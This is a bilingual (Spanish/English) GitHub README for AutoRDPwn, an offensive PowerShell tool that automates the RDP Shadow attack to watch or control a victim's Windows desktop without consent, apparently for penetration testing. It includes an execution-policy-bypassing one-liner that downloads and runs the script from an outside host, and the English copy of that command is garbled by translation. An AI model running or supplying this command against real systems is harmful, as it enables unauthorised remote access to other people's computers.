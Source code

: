 
![AutoRDPwn](https://user-images.githubusercontent.com/34335312/45109339-8b203580-b13f-11e8-9de7-1210114313bb.png)



**AutoRDPwn** es un script creado en Powershell y diseñado para automatizar el ataque **Shadow** en equipos Microsoft Windows. Esta vulnerabilidad permite a un atacante remoto visualizar el escritorio de su víctima sin su consentimiento, e incluso controlarlo a petición. Para su correcto funcionamiento, es necesario cumplir los requisitos que se describen en la guía de uso.


# Requisitos
Powershell 5.0 o superior


# Cambios

## Versión 4.0
• Resuelto un bug en la tarea programada para eliminar el usuario AutoRDPwn

• El ataque Scheluded Task ha sido reemplazado por Invoke-Command

• Ahora es posible elegir el idioma de la aplicación y lanzar el ataque a versiones inglesas de Windows

*El resto de cambios se pueden consultar en el fichero CHANGELOG


# Uso
**Ejecución en una línea:**

powershell -ExecutionPolicy Bypass "cd $env:TEMP ; iwr https://darkbyte.net/autordpwn.php -Outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"

**La guía detallada de uso se encuentra en el siguiente enlace:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
• **Mark Russinovich** por su herramienta PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• **Stas'M Corp.** por su herramienta RDP Wrapper -> https://github.com/stascorp/rdpwrap

• **Kevin Robertson** por su herramienta Invoke-TheHash -> https://github.com/Kevin-Robertson/Invoke-TheHash

• **Benjamin Delpy** por su herramienta Mimikatz -> https://github.com/gentilkiwi/mimikatz


# Contacto
Este software no ofrece ningún tipo de garantía. Su uso es exclusivo para entornos educativos y/o auditorías de seguridad con el correspondiente consentimiento del cliente. No me hago responsable de su mal uso ni de los posibles daños causados por el mismo.

Para más información, puede contactar a través de info@darkbyte.net

-------------------------------------------------------------------------------------------------------------
# English description

**AutoRDPwn** is a script created in Powershell and designed to automate the **Shadow** attack on Microsoft Windows computers. This vulnerability allows a remote attacker to view his victim's desktop without his consent, and even control it on request. For its correct operation, it is necessary to comply with the requirements described in the user guide.

# Requirements
Powershell 5.0 or higher

# Changes
## Version 4.0
• Fixed a bug in the scheduled task to remove the user AutoRDPwn

• The Scheluded Task attack has been replaced by Invoke-Command

• It is now possible to choose the language of the application and launch the attack on English versions of Windows

*The rest of the changes can be consulted in the CHANGELOG file

# Use
**Execution in a line:**

powershell -ExecutionPolicy Bypass "cd $ env: TEMP; iwr https://darkbyte.net/autordpwn.php -Outfile AutoRDPwn.ps1;. \ AutoRDPwn.ps1"

**The detailed guide of use can be found at the following link:**

https://darkbyte.net/autordpwn-la-guia-definitiva

# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.

# Credits and Acknowledgments
• **Mark Russinovich** for his tool PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• **Stas'M Corp.** for its RDP tool Wrapper -> https://github.com/stascorp/rdpwrap

• **Kevin Robertson** for his tool Invoke-TheHash -> https://github.com/Kevin-Robertson/Invoke-TheHash

• **Benjamin Delpy** for his tool Mimikatz -> https://github.com/gentilkiwi/mimikatz

# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can contact through info@darkbyte.net
